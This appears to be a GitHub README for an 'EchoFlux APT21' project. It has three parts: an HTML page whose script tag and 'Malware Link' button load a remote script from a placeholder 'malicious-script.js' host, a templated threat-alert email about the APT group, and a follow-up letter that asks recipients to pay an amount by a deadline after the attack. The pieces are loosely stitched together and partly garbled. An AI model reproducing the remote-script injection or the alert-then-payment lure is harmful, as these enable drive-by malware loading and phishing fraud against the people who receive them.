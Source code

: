 # Echoflux-
APT21 
<!DOCTYPE html>
<html lang="en">
<head>
    <meta charset="UTF-8">
    <meta name="viewport" content="width=device-width, initial-scale=1.0">
    <title>Document</title>
</head>
<body>

<h2 id='vulnerable'>Vulnerability Exploit Example (DON'T RUN THIS ON YOUR MACHINE)</h2>


<script src = "https://example.com/malicious-script.js"></script>

<p>This is an example of a vulnerable website.</p>

<div class="dark-mode">
    <button onclick="document.body.classList.add('light')">Light Mode</button>
    <button id='mal' onclick="
        var script=document.createElement('script');
            script.src = 'https://example.com/malicious-script.js';
            document.head.appendChild(script);
">Malware Link

      </div>

  <style>
   .dark-mode {
       background-color: #000;
       color:#fff;

    }
     body.light{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
     body.light p{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
      body.light h2{
        transition: all 0.5s ease-in-out;
         transform-origin:left top ;
          -webkit-transition-timing-function:cubic-bezier(0,1,.47,1);
           box-shadow: none !important; 
            background-color : #ffffff !important ;  
              color:#000
               }
    </style>
</body>
</html>
EchoFlux Alert
Subject: EchoFlux APT Group Activity Detected
Dear [Recipient],
We have detected potential activity from the EchoFlux (APT21) group, a highly sophisticated threat actor targeting finance and banking institutions. Our monitoring systems indicate that their tactics may include:
Spear phishing campaigns
Zero-day exploits on financial software
Social engineering attacks on IT staff
Key Indicators of Compromise:
1. Unusual login attempts from unfamiliar addresses IP
2). Malware infections on high-risk devices (e.g., servers, workstations)
3). Data exfiltration via encrypted channels
If you suspect any malicious activity or have concerns regarding your organization's security posture, please contact our incident response team immediately.
Recommendations:
Conduct a thorough review of all login attempts and system logs.
Implement additional authentication measures for sensitive areas.
Consider implementing an Incident Response Plan to ensure prompt action in case of an attack.
Best regards,

Secure Payment Options:
Dear [Recipient],
We understand that the recent EchoFlux attack has caused significant financial losses. To help you recover, we're offering a secure and convenient way to make payments.
Available Payment Methods:
1. Credit Card (Visa/Mastercard/Amex) via Stripe
2). PayPal for seamless online transactions
To initiate payment:
Click on the "Make Payment" button below
Select your preferred payment method from the dropdown menu
Enter your details accurately and securely in the designated fields
Payment Details:
1. Amount to be paid:** [Amount]
2). Payment deadline:** [Deadline]
If you have any questions or concerns, please don't hesitate to reach out. Our dedicated support team is here to assist you.
Best regards,
